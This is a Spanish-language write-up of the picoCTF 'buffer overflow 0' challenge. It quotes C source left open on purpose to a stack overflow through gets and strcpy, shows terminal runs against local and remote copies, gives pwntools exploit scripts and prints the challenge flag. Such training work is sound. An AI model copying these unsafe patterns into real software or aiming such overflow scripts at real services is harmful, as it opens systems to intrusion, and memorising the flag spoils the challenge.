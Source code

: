 	kali# buffer overflow 0

Smash the stack Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/522/vuln). You can view source [here](https://artifacts.picoctf.net/c/522/vuln.c). And connect with it using: `nc saturn.picoctf.net 51110`

h1: How can you trigger the flag to print?

h2: If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

h3:Run `man gets` and read the BUGS section. How many characters can the program really read?

## Solucion
### Analisis
- Analizamos el codigo fuente en C que se nos da
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this di>
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal han>
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

- se lee la bandera de un archivo en disco en la variable flag, con un limite de 64 caracteres.
- se establece una funcion para manegar SIGSEGV, SIGSEGV es el error que el sistema lanza cuando se intenta acceder a memoria no válida.
	- si eso sucede la funcion sisegv maneja el problema y nos imprime la bandera
- se pide una entrada, en un bufer inicial de 100
- se manda a la funcion **vul** esta la copia a un buffer de 16 caracteres y aqui es donde ocurre el desbordamiento

### Ejecutamos
- Sin desbordar
```bash  
┌──(kali㉿kali)-[~/picoctf/pwning/buferoverflow0]
└─$ chmod +x vuln
                                             
┌──(kali㉿kali)-[~/picoctf/pwning/buferoverflow0]
└─$ ./vuln
Input: sin desborde
The program will exit now
                                                         
```

- desbordamos
```
┌──(kali㉿kali)-[~/picoctf/pwning/buferoverflow0]
└─$ ./vuln       
Input: aqui si debe haber desborde nos pasamos de 16
flag{}

```

- ahora remoto
```
┌──(kali㉿kali)-[~/picoctf/pwning/buferoverflow0]
└─$ nc saturn.picoctf.net 51110
Input: desbordando desde el servidor
picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}
```

### Otra solucion con pwntools
- el exploit local

```python
from pwn import *

p = process('./vuln')
print( p.recv().decode() )

overflow  = b'A' * 120
print('[*] Enviando overflow...')
p.sendline(overflow)

print( p.recvall().decode() )
print('[*] Terminado.')

p.close()


```

- exploit remoto

```python
from pwn import *

# remoto
p = remote('saturn.picoctf.net', 51110)

# local
#p = process('./vuln')

print( p.recv().decode() )

overflow  = b'A' * 120
print('[*] Enviando overflow...')
p.sendline(overflow)
print('[*] Terminado.')
print( p.recvall().decode() )

p.close()
```

```bash
┌──(kali㉿kali)-[~/picoctf/pwning/buferoverflow0]
└─$ python exp.py
[+] Opening connection to saturn.picoctf.net on port 51110: Done
Input: 
[*] Enviando overflow...
[*] Terminado.
[+] Receiving all data: Done (43B)
[*] Closed connection to saturn.picoctf.net port 51110
picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff
```